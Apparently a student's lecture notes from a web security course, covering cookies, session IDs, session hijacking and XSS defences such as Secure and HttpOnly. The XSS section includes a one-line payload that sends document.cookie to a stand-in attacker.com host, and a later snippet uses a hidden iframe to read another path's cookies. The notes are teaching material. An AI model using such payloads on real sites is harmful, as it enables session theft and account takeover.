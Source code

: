 ### Signing

- $G \to (pk,\ sk)$
- $S(pk,\ x) \to t$
- $V(sk,\ x,\ t) \to \text{Accept}$

### How to use `SessionId`

1. generate `SessionId` when the user login (and set it in cookie)
2. invalidate the generated `SessionId` when the user logouts (and clear it in cookie)

### History of cookies

- Implemented in 1994
- No spec for 17 years
- Ad-hoc design has led to *interesting* issues

### Cookie attributes
- `Expires` - specifies expration date. If no date, then last for session (here session means time when the user use the browser, if close the browser, it goes away)
- `Path` - Scope the "Cookie" **request header** to a particular **request path prefix**
  - e.g. At `web.stanford.edu/class/cs106a`, `document.cookie = 'sessionId=1234; Path=/class/cs106a'`; then at `web.stanford.edu/class/cs235`, `document.cookie` is empty string.
  - **Broken**! Do not use for security
- `Domain` - Allows the cookie to be scoped to a domain broder than the domain that returned the `Set-Cookie` header
  - e.g. `login.stanford.edu` could set a cookie for `stanford.edu`

### Sesskion hijacking mitigation

1. `Set-Cookie: key=value; Secure` - Use `Secure` cookie attribute to prevent cookie from being sent over unencrypted HTTP connections
2. Even better: Use HTTPS for entire website

### About XSS
1. The attacker inject malicious code to the website
   - e.g. `new Image().src = 'https://attacker.com/steal?cookie=' + document.cookie`
2. The user visit the website
3. The user's cookie is sent to the attacker (session stealed)

### Protect cookies from XSS
Make cookie not accessable from javascript (Use `HttpOnly` cookie) 
```
Set-Cookie: key=value; Secure; HttpOnly  
```

### Bypass `Path`
At `web.standford.edu/class/cs253`,
```javascript
const iframe = document.createElement('iframe')
iframe.src = 'https://web.stanford.edu/class/cs106a/'
document.body.append(iframe)
iframe.style.display = 'none' // make it invisible 
iframe.contentDocument.cookie // read cookie set by https://web.stanford.edu/class/cs106a/
                              // stay tuned for same origin policy (the reason why we can do it)
```